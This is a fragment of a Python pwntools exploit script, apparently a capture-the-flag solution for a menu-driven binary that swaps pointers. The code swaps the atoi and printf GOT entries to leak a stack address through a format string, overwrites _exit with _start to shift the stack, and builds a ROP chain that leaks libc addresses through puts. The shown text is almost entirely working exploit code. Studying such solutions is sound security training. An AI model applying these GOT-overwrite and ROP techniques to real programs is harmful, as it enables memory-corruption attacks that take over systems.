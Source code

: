 ```python
	sh.recvuntil("2nd address: \n")
	sh.send(str(addr2) + "\n")
	sh.recvuntil("Your choice: \n")

def swap():
	sh.send("2\n")
	sh.recvuntil("Your choice: \n")

def exit():
	sh.send("3\n")
	sh.recvuntil("Your choice: \n")

def invalid_choice():
	sh.send("4\n")
	sh.recvuntil("Your choice: \n")

#leak stack addr---------------------------

invalid_choice()
#make sure dl resolve being called

set_pointers(p.got["atoi"], p.got["printf"])
swap()

sh.send("%p")
stack_leak = sh.recvuntil("0x")
stack_addr = int(sh.recv(12), 16)
print hex(stack_addr)


#recover atoi and printf-------------------------
sh.recvuntil("Your choice: \n")
sh.send("A") # strlen = 1, so set pointer

sh.recvuntil("1st address: \n")
sh.send(str(p.got["atoi"]) + "\n")
sh.recvuntil("2nd address: \n")
sh.send(str(p.got["printf"]) + "\n")
sh.recvuntil("Your choice: \n")

sh.send("AA") # strlen = 2, so swap
sh.recvuntil("Your choice: \n")

#replace exit with _start-------------------------
set_pointers(stack_addr + START_OFF, p.got["_exit"])
swap()
#now call exit to raise the stack


#fill stack & construct ROP----------------------
def fill_stack(data):
	assert len(data) == 0x10
	set_pointers(u64(data[:8]), u64(data[8:]))
	exit()

rop = p64(POP_RDI_RET)
rop += p64(p.got["puts"])
rop += p64(p.plt["puts"])
rop += p64(MAIN)
rop += p64(ADD_RSP_0x38)
rop += p64(0)
# rdx is 0, and no pop rdx, so failed
# rop += p64(POP_RDI_RET)
```